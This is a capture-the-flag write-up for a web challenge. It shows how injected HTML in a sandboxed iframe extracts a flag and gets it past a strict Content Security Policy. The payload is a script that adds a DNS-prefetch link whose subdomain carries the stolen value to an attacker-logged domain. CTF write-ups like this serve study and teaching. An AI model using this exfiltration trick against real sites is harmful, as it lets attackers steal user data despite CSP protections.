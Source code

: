 # Trivial

### Problem 

The flag is stored in the localStorage of a browser located on the server. We are given a route to inject HTML into an iframe into the home page opened on the browser. The page sets a Content Security Policy of `default-src 'none';` effectively blocking all requests, even to itself. The iframe also has a sandbox restriction of `allow-scripts`, which prevents popups and access to the parent document, but allows scripts.

### Solution

I did not solve this challenge during the contest window. However I did try out the solution myself afterwards. 

Obtaining the flag is easy, we can extract the contents of the flag using a simple regex on the document text: 
```js
/CTF\{(.*)\}/.exec(document.body.innerText)[1];
```
The hard part is actually sending the flag. Due to the strict Content Security Policy, there was hardly a way to do it. However it appears that using DNS prefetching can bypass this, and the flag can be received by logging DNS requests. 

[messwithdns](https://messwithdns.net/) was a suggested tool, so by clicking `Start Experimenting` and then using the subdomain in the following HTML, we can bypass the CSP and obtain the flag in the request log: 
```html
<script>
document.getElementsByTagName('body')[0].innerHTML += `\<link rel="dns-prefetch" href="//${/CTF\{(.*)\}/.exec(document.body.innerText)[1]}.DOMAIN_HERE"\>`
</script>
```


Our flag is then `CTF{csp_is_not_a_security_feature}`
